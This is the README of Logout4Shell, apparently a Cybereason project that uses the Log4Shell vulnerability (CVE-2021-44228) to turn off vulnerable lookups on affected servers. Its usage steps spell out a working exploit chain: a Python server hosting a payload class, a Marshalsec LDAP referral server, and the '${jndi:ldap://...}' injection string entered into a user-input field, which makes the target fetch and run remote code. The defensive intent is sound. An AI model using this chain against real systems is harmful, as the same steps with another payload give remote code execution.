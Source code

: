 # Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Software made or managed by the Apache Software Foundation (From here on just "Apache") is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to
2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings `com.sun.jndi.rmi.object.trustURLCodebase` and
`com.sun.jndi.cosnaming.object.trustURLCodebase` are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code that _exploits_ the same vulnerability and the payload therein
forces the logger to reconfigure itself with the vulnerable setting disabled -
this effectively blocks any further attempt to exploit Log4Shell on this server.

This Proof of Concept is based on [@tangxiaofeng7](https://github.com/tangxiaofeng7)'s [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)

However, this project attempts to fix the vulnerability by using the bug against itself.

You can learn more about Cybereason's "vaccine" approach to the Apache Log4Shell vulnerability (CVE-2021-44228) on our website.

Learn more: [Cybereason Releases Vaccine to Prevent Exploitation of Apache Log4Shell Vulnerability (CVE-2021-44228)](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## Supported versions
Logout4Shell supports log4j version 2.0 - 2.14.1

## How it works
On versions (>= 2.10.0) of log4j that support the configuration `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`,
this value is set to `True` disabling the lookup mechanism entirely. On older versions, the payload searches all
existing LoggerContexts and removes the jndi key from the `Interpolator` used to process `${}` fields.

In both cases, this change will revert when the JVM restarts. 

We're considering a more permanent fix - for example, edit the jar on disk of the vulnerable server so that the class
JndiLookup will not be instantiated. We'd love community feedback on such an idea and it's associated risks.

## How to use

1. Download this repository and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.git`

   1.2 build it - `mvn package`

   1.3 `cd target/classes`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package -DskipTests`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.

## License
The source code for the site is licensed under the MIT license, which you can find in the LICENSE file.
